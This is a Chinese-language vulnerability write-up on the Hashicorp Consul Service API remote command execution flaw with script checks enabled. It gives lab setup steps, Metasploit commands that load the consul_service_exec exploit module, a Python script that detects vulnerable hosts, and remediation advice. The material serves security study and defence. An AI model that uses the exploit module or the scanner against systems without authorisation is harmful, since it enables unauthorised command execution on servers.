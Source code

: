 # Hashicorp Consul Service API远程命令执行漏洞

## 漏洞描述

2018年11月27日，Consul在官方博客中发布了关于Consul工具在特定配置下可能导致远程命令执行（RCE）漏洞的公告，并描述了防护该漏洞的配置方案。

Consul是HashiCorp公司推出的一款开源工具，用于实现分布式系统的服务发现与配置。与其他分布式服务注册与发现的方案相比，Consul提供的方案更为“一站式”。Consul内置了服务注册与发现框架、分布一致性协议实现、健康检查、Key/Value存储、多数据中心方案，不再需要依赖其他工具（例如ZooKeeper等），使用方式也相对简单。

Consul使用Go语言编写，因此具有天然的可移植性（支持Linux、Windows和Mac OS X系统）；且安装包中仅包含一个可执行文件，便于部署，可与Docker等轻量级容器无缝配合。

在特定配置下，恶意攻击者可以通过发送精心构造的HTTP请求在未经授权的情况下在Consul服务端远程执行命令。

## 漏洞影响

启用了脚本检查参数（-enable-script-checks）的所有版本

## 环境搭建

以1.2.4为例，下载地址：https://releases.hashicorp.com/consul/1.2.4/

## 漏洞复现

Windows在当前目录下执行命令：

```
#开启脚本检测功能，该功能开启后漏洞才存在
consul.exe agent -dev -client <your-target-ip>  -enable-script-checks   
```

访问`your-target-ip:8500`：

![image-20230306091757424](images/image-20230306091757424.png)

验证是否存在该远程命令执行漏洞，访问以下网址，如果`EnableRemoteScriptChecks`参数为`true`，则漏洞存在：

```
http://your-target-ip:port/v1/agent/self
```

也可以使用Meterpreter进行利用：

```
msf6 > search Hashicorp
msf6 > use exploit/multi/misc/consul_service_exec
```

## 漏洞POC

```python
import requests
import argparse
from requests.packages import urllib3
urllib3.disable_warnings()
from colorama import init
init(autoreset=True)
import json
headers={
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:78.0) Gecko/20100101 Firefox/78.0'
}
def url():
	des="Hashicorp Consul Service API远程命令执行漏洞POC"
	parser = argparse.ArgumentParser(description=des)
	parser.add_argument('target_url',type=str,help='The target address,example: http://192.168.140.153')
	args = parser.parse_args() 
	target_url = args.target_url
	print("Hashicorp Consul Service API远程命令执行漏洞POC")
	print("[-]正在执行检测...")
	print(f"[-]目标地址：{target_url}",)
	return target_url
def check(target_url):
	url = target_url + '/v1/agent/self'
	try:
		response = requests.get(url=url,headers=headers,verify=False,timeout=5).text
		value = json.loads(response)['DebugConfig']['EnableRemoteScriptChecks']
		if str(value) == 'True':
			print('\033[0;31m[+]漏洞存在\033[0m')
		else:
			print('漏洞不存在')
	except Exception as a:
		print('漏洞不存在')
	
if __name__ == '__main__':
	target_url = url()
	check(target_url)
```

## 漏洞修复

- 禁用Consul服务器上的脚本检查功能
- 确保Consul HTTP API服务无法通过外网访问或调用
- 对`/v1/agent/service/register` 禁止PUT方法